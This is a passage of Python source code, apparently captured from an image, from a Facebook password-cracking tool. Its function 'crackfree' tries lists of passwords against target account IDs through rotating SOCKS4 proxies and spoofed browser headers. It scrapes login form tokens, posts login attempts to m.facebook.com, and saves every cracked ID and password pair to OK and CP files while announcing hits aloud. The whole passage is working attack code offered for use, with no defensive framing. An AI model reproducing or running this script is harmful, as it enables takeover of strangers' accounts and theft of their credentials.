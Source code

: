             else:
                continue
        except requests.exceptions.ConnectionError:
            time.sleep(31)
    loop+=1
 
#------------------[ METHODE-MBASIC-2 ]-------------------#
 
def crackfree(idf,pwv):
    global loop,ok,CP
    sys.stdout.write(f"\r{H}[SSC-ON]{P}-[{H}{loop}{P}]{P}-[{H}{len(id)}{P}]-[OK{P}-{H}{ok}{P}] [{P}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
    sys.stdout.flush()
    ua = random.choice(ugen)
    ua2 = random.choice(ugen2)
    ses = requests.Session()
    for pw in pwv:
        try:
            nip=random.choice(prox)
            proxs= {'http': 'socks4://'+nip}
            ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
            p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
            dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
            koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
            koki+=' m_pixel_ratio=2.625; wd=412x756'
            heade = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="24", "Chromium";v="116", "Google Chrome";v="109"', 'sec-ch-ua-mobile': '1', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent':ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7', 'sec-fetch-site': 'same-origin', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9,bn-BD;q=0.8,bn;q=0.7',}
            po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
            if "checkpoint" in po.cookies.get_dict().keys():
                print(f'\r\033[10;92m\033[1;91m[\033[1;92mSSC-Cp🖤\033[1;91m] {idf} • {pw}')
                print(f'\033[38;5;196m───────────────────────────────────────────────\033[1;37m')
                os.system('espeak -a 300 " CP, ID"')
                open('CP/'+CPc,'a').write(idf+' • '+pw+'\n')
                akun.append(idf+' • '+pw)
                CP+=1
                break
            elif "c_user" in ses.cookies.get_dict().keys():
                ok+=1
                coki=po.cookies.get_dict()
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print(f'\r\033[10;92m[{time.strftime("%H:%M")}•SSC-Ok💙] \033[1;92m{idf} • \033[1;92m{pw} ')
                print(f'\033[38;5;196m────────────────────────────────────────────────\033[1;37m')
                os.system('espeak -a 300 " SSC,  Ok,  id"')
                open('OK/'+okc,'a').write(idf+' • '+pw+'\n')
                break
                